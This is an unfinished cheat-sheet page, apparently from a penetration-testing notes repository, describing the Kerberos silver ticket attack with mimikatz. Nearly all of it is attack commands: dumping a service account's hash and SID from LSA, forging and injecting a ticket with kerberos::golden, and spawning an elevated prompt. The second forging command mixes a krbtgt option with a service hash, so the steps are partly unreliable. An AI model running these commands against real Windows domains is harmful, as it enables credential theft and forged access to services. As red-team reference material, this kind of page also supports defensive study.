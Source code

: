 # Kerberos: Silver Ticket

#### STILL EDITING

#### Silver ticket (`mimikatz`)

1. Dump the hash and security identifier (SID) of the targeted service account:

```
mimikatz # lsadump::lsa /inject /name:<SERVICE_NAME>
```

1. Create a silver ticket:

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
mimikatz # kerberos::list
...
mimikatz # kerberos::golden /user:<USERNAME> /domain:<DOMAIN> /sid:<USER_SID> /target:<SPN> /service:<SERVICE_PROTOCOL> /rc4:<SERVICE_HASH> /ptt

mimikatz # kerberos::golden /user:<USERNAME> /domain:<DOMAIN> /sid:<USER_SID> /krbtgt:<SERVICE_NTLM_HASH> [/id:1103] [/ptt]
```

1. Open a new command prompt with elevated privileges with the given ticket:

```
mimikatz # misc::cmd
```
